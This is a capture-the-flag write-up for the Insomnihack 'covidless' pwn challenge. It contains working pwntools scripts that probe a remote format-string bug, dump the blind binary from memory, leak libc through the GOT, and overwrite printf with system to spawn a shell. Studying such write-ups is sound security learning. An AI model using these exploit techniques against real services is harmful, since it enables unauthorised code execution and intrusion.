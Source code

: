 ```yaml
---
title: "[pwn] covidless"
categories:
  - CTF/pwn
tags:
  - fmtstr
  - overwriteGOT
---
```


The only info provided was ip addr & port number. Without binary to download, then i try it, the binary has format string vuln.

```bash
$ nc covidless.insomnihack.ch 6666
%8$p
Your covid pass is invalid : 0x5379334b5f763172
try again ..

%9$p
Your covid pass is invalid : 0x5f74304e6e34635f
try again ..
```

```python
#!/usr/bin/python3
from pwn import *
context.log_level='critical'

for i in range(1, 100):
    r = remote('covidless.insomnihack.ch', '6666')

    # r.sendline(f'%{i}$s')   #1
    r.sendline(f"%{i}$016lx") #2

    data = r.recvline()[29:-1]
    if(data != b'(null)'):
        print(i, data)
    r.close()
```

with `#1` i obtain some info

```bash
59 b'./covidless'
61 b'REMOTE_HOST=::ffff:14.177.85.188'
69 b'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
73 b'LD_PRELOAD=./libc6_2.27-3ubuntu1_amd64.so'
84 b'\x7fELF\x02\x01\x01'
```

with #2 output from 2 consecutive runs, it has some same

```bash
1 b'0000000000400934'
6 b'74346e3143633456'
7 b'505f44315f6e6f31'
8 b'5379334b5f763172'
9 b'5f74304e6e34635f'
30 b'0000000000400890' <- A return address that points into
35 b'000000000040075a'    the .text segment of the program
```

We can assume that PIE is off (the `.text` segment addresses are the same each time).

The .text segment likely starts at `0x400000`

```python
# dump.py
#!/usr/bin/python3
from pwn import *

binary = b""
leak = b""
io = remote('covidless.insomnihack.ch', 6666)
addr = 0x400000 # 0x601000
while addr != 0x402000:# 0x602000
    if '0a' in hex(addr):
        leak = b"0"
        binary += b'\0'
    else:
        payload = b"%13$sAAA"+p64(addr)
        io.sendline(payload)
        io.recvuntil(b" : ")
        leak = io.recvuntil(b"AAA",drop=True)
        if leak == b"":
            leak = b"0"
            binary += b'\0'
        else:
            binary += leak
				 print(hex(addr), '0x' + leak[::-1].hex())
    with open('bin','wb+') as f:
        f.write(binary)
    addr += len(leak)

$ ./dump.py > log.txt
```

look at import tab in ida, the GOT located at offset `0x601000` run it again with new addr

log.txt + [symbols on libc](https://libc.blukat.me/d/libc6_2.27-3ubuntu1_amd64.symbols) :

```bash
0x601000 0x600e20
0x601008 0x7fddfa0fe170
0x60100e 0x30
0x60100f 0x30
0x601010 0x7fddf9eea8f0
0x601016 0x30
0x601017 0x30
0x601018 0x7fddf9b629c0 -> _IO_puts
0x60101e 0x30
0x60101f 0x30
0x601020 0x4005f6
0x601028 0x7fddf9b46e80 -> _IO_printf
0x60102e 0x30
0x60102f 0x30
0x601030 0x7fddf9c70f50 -> _snprintf
0x601036 0x30
0x601037 0x30
0x601038 0x7fddf9b60b20 -> _IO_fgets, fgets
0x60103e 0x30
0x60103f 0x30
0x601040 0x7fddf9b8be70 -> __snprintf_chk
0x601046 0x30
0x601047 0x30
0x601048 0x7fddf9b607e0 -> _IO_2_1_stdin_
0x601060 0x7fddf9ece760
0x601071 0x7fddf9ecda
```

---

## Strategy

1. Leak the glibc base addr from GOT
2. Overwrite the GOT entry of `printf` with `system` using a format str
3. Get a shell

```python
# xpl.py
#!/usr/bin/env python3
from pwn import *

uu64 = lambda x : u64(x.ljust(8, b'\x00'))

def start(argv=[], *a, **kw):
    return remote('covidless.insomnihack.ch', 6666, *a, **kw)

context.clear(arch = 'amd64')
libc = ELF('./libc6_2.27-3ubuntu1_amd64.so')
# warning/info/debug
context.log_level = 'info'

def get_returned_value():
    data = io.recvline().replace(b"\ntry again ..\n\n", b"")[29:]
    return data

def read_address(addr):
    payload = b"%14$s".ljust(16, b",")
    payload += p64(addr)
    io.sendline(payload)

    data = get_returned_value()
    print(data)
    return data.split(b',')[0]

globalOffsetTable = {
    'puts': 0x601018,
    'printf': 0x601028,
}
io = start()

# lazy linking for puts()
io.sendline(b'')
io.recvuntil(b'\n\n')

libc.address = uu64(read_address(globalOffsetTable['puts'])) - libc.sym.puts
log.info("base = %#x", libc.address)

payload_writes = {
    globalOffsetTable['printf']: libc.sym['system']
}
io.sendline(fmtstr_payload(12, payload_writes, write_size='short'))
io.sendline(b'/bin/sh')
io.interactive()
```
